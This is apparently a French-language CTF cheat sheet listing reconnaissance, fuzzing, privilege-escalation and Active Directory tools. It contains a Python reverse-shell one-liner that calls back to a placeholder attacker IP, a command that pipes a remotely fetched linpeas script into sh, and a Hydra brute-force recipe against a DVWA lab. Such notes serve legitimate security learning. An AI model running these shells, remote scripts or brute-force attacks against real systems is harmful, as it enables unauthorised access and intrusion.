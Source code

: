 # CTF
Write-up des chall que j'ai réalisé


# TOOLS
FrameWork pour OSINT de numero de telephone => phoneinfoga 
FUZZ => Feroxbuster, dirb, dirbuster, gobuster

Scanner de vulnerabilitö web => nikto, Nessus, Rapid7, OpenVas
Done => fuzz sous-domaine + Port Scan (https://github.com/v4d1/Dome) 

Scanner de platforme web => BurpSuite, ZAProxy

Reconnaissance passive graphique => Maltego
Reconnaissance passive => Metagoofil

yersinia => Pour les protocoles de communication (Cisco et autre)

CRUNSH : DICO + SEL

CUPP : Création de dico en fonction des noms données

Setoolkit : Social Ingénieuring (copie de site pour récupérer les URL)

hashid : donne le type de hash d'un hash

arpspoof : recupere les requetes ARP et les transmets (man in the middle)

exiftool : metadata du fichier

hexdump : (-C) transformation en hexa du fichier bin

powershell-empire : comme metaspote, exploit windows

KrbRelayUp : Escalation privilege sur Windows en exploitant les requêtes LDAP non-signées

recon-ng : Framework de reconnaissance passive (avec API)

Discover : Framework de reconnaissance passive (avec API) + recon ng + google dorks

pypykatz / Empire : Check des fichiers pour monter les privilèges WINDOWS

linuxprivchecker et linpeas : Check des fichiers pour monter les privilèges LINUX
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

Steghide : Extraction de fichier a partir d'un autre fichier et passphrase

crackmapexec : Pentest orienté AD (connexion via plusieurs protocole, script, hash, un couteau suisse)

dnSpy : Reverse Application : https://github.com/dnSpy/dnSpy

-----Scanner-----

nmapAutomator : git clone https://github.com/21y4d/nmapAutomator.git
                sudo ln -s $(pwd)/nmapAutomator/nmapAutomator.sh /usr/local/bin/
                
-----WEB------

Nikto : Pentest Web -> check une URL

dirb : brute force pour trouvé des pages web ou des dossiers

zaproxy : Nessus pour le web (scan les vulnérabilitées)

wpscan : scan wordpress -> Puissant

curl : requete vers site web

droopescan : Scan de site Drupal (comme Wpscan pour workPress)

Cewl : récupere les mots d'un site et fait un dico pour brute force

https://whatsmyname.app/ : recherche de compte a partir d'un pseudo 

--------------

Avoir un shell :
python3 -c 'import pty;pty.spawn("/bin/bash")'

export RHOST="10.10.14.5";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'


# BRUTE FORCE
Avec Hydra :
```
CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```
```
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')```
```
```
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php"
```
```
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```

# WORDLIST :
/usr/share/wordlists
  |--dirb
  |--dirbuster
  |--fasttrack.txt
  |--fern-wifi
  |--metasploit
  |--nmap.lst
  |--rockyou.txt
  |--wfuzz

/usr/share/wordlists/dirb/common.txt => sub domain 
/usr/share/wordlists/dirb/big.txt => sub domain 
/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/usr/share/seclist/bitquark-subdomains-top100000.txt
/usr/share/seclist/subdomains-top1millions-110000.txt

# AD / Windows Tools :

evil-winrm
BloodHound (avec neo4j)

